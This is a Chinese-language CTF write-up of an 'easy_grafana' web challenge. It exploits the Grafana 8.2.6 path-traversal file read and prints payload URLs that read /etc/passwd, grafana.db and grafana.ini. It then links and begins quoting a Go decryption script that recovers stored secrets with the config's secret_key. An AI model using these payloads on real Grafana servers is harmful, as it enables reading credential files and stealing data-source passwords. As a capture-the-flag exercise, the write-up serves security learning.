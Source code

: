 0x01 WEB
========

easy\_grafana
-------------

grafana8.2.6版本有个任意文件读取漏洞，但是需要绕过

`/public/plugins/text/#/../..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f/etc/passwd`  
![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-3a247c46cb2f4d219dbe5689471f7a465dd68364.png)

然后可以读出grafana的默认配置和数据库文件，虽然数据库中有加密后的密码和token，但都无从下手。

```js
/public/plugins/alertlist/#/../../../../../../../../../../../var/lib/grafana/grafana.db
/etc/grafana/grafana.ini
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-2806c47349fc468c97cba6ffdbe19f5c155aeabb.png)

经过仔细翻阅sqlite3的数据库文件，发现有一个mysql数据库存储了一个加密后的值。

查阅官方文档，发现那个**secret\_key**有大作用  
&gt; Used for signing some data source settings like secrets and passwords, the encryption format used is AES-256 in CFB mode. Cannot be changed without requiring an update to data source settings to re-encode them.

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-d1e35f97ed1acd0dcbf42f3493cfe7d647f46060.png)  
在github找寻到aesdecrypt解密脚本，填上grafana.ini的secret\_key即可破解出flag！

解密脚本：<https://github.com/jas502n/Grafana-CVE-2021-43798/blob/main/AESDecrypt.go>

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-30f2feef6ed84e428ba1040d6d4dabcc2d8e9b47.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-aeeaf502c729dcf926fb5c50f3e5c53ffc467925.png)

```php
package main  
​  
import (  
    "bytes"  
    "crypto/aes"  
    "crypto/cipher"  
    "crypto/rand"  
    "crypto/sha256"  
    "encoding/base64"  
    "errors"  
    "fmt"  
    "io"  
​  
    "golang.org/x/crypto/pbkdf2"  
)  
​  
const (  
    saltLength                   = 8  
    aesCfb                       = "aes-cfb"  
    aesGcm                       = "aes-gcm"  
    encryptionAlgorithmDelimiter = '\*'  
)  
​  
func deriveEncryptionAlgorithm(payload \[\]byte) (string, \[\]byte, error) {  
    if len(payload) == 0 {  
        return "", nil, fmt.Errorf("unable to derive encryption algorithm")  
    }  
​  
    if payload\[0\] != encryptionAlgorithmDelimiter {  
        return aesCfb, payload, nil // backwards compatibility  
```